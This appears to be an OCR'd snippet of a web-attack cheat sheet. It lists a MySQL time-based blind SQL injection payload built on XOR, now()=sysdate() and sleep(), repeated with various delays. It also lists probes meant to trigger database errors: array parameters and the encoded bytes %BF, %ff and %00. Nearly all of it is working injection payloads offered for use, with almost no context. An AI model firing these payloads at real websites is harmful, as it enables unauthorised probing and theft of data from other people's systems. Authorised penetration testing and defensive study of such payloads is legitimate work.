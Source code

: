 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(3),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>

try get errors <br>
using [] <br>
?id=1 --- ?id[]=1 <br>
%BF <br>
%ff <br>
%00 <br>
